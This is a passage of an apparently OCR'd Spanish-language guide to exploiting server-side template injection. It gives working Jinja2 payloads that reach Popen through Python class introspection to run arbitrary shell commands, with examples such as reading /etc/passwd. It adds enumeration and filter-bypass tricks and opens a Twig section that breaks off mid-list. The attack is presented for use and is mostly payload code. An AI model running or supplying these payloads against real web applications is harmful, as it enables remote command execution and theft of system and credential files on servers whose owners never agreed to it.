 ### 2.2 Llamar a Popen para ejecutar un comando

Suponiendo que `Popen` está en la posición `N` (reemplaza `N` por el índice real):

```
{{ ''.__class__.__mro__[1].__subclasses__()[N]('id', shell=True, stdout=-1).communicate() }}
```

* `'id'` lo cambias por el comando que quieras (`whoami`, `ls -la /`, `cat /etc/passwd`).
* Si `stdout=-1` no funciona en ese entorno prueba `stdout=1` o `stdout=2` según la representación que muestre el motor.

### 2.3 Si `Popen` no aparece, busca otras clases útiles

* Busca clases que permitan abrir ficheros (`file`, `open` wrappers) o que expongan `os`/`sys` objetos.
* Payload para listar `__mro__` de objetos distintos y encontrar rutas alternativas:

```
{{ config.__class__.__mro__ }}
```

(o cualquier objeto accesible por la app; `config`, `self`, `request` pueden existir dependiendo de la app).

### 2.4 Variantes y trucos

* Usa `().__class__` en lugar de `''.__class__` si obtienes errores: `{{ () .__class__.__mro__ }}`.
* Si la app filtra puntos (`.`) o corchetes, prueba variantes con `attribute()` o `getattr()` si están disponibles.
* Si la plantilla tiene sandbox, busca `cycler`, `namespace`, `joiner` para identificar capacidades: `{{ cycler.__class__ }}`.

Referencia práctica con payloads agregados: el repositorio `payloadbox/ssti-payloads` (busca Jinja2) tiene cadenas que funcionan como plantilla para adaptar índices y llamadas. (Fuente: payloadbox repo).

---

# 3) Si es **Twig** (PHP)

Twig expone funciones/constantes PHP de forma distinta. En Twig la estrategia es diferente: enumerar funciones y constantes, intentar invocar funciones PHP expuestas o explotar extensiones mal configuradas.

### 3.1 Prueba de confirmación (leer constante PHP):

```
{{ constant('PHP_VERSION') }}
```

### 3.2 Enumerar/consultar variables/funciones:

* Prueba filtros/funciones típicas:
